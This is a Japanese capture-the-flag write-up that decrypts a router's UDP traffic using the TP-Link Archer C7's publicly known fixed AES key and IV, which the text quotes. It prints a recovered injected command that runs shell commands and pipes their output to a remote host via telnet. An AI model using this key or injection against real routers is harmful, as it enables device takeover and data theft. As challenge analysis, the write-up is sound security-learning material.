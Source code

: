 # Writeup

タイトルが`AC1750`なので`AC1750 vulnerability`でGoogle検索するとルーターに関する脆弱性が見つかる。問題文にも`My router is weird`と書いてあるので、この脆弱性が関連しているだろうと推測。

* https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo

脆弱性はAES暗号化部分で、keyとして`TPONEMESH_Kf!xn?gj6pMAt-wBNV_TDP`、IVとして`1234567890abcdef1234567890abcdef`が固定でセットされている部分にあるらしい。

> **Encrypting the Packet**
>
> As explained in the previous section, the packet is encrypted with AES with a fixed key of TPONEMESH_Kf!xn?gj6pMAt-wBNV_TDP. There are a few more missing pieces to this puzzle, though. The cipher is used in CBC mode and the IV is the fixed value 1234567890abcdef1234567890abcdef. Furthermore, despite having a 256-bit key and IV, the actual algorithm used is AES-CBC with a 128-bit key, so half of the key and IV are not used.

また、以下の記述から、与えられたパケットの中でもUDP通信に着目すれば良さそう。

> The daemon communicates with the mobile application through the use of UDP packets with an encrypted payload.

パケットキャプチャの中身を`Wireshark`で調べ、UDPのデータ部分に対して`CyberChef`を使ってAES Decryptしてみる。

上記の脆弱性によれば、Keyの半分が使われていないと述べられているので後半部分を削り、`TPONEMESH_Kf!xn?`で復号化する。

データ部分が304バイトであるデータを復号したところ、以下のように読める文字が現れた。

![](img/2020-11-29-02-10-52.png)

赤線部分が怪しく、おそらく任意のコマンドを入力しているのだろうと思われる。

これをデータ部が304バイトであるUDPパケットについて行い、printfの後の文字をすべてつなげると

```
(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>flag&&ls -l)|telnet 192.168.0.105 4321
```

となる。（地道に手作業でやった。Wiresharkでデータ部分をまとめて抽出する方法が知りたい。）

<!-- hitcon{Why_can_one_place_be_injected_twice} -->



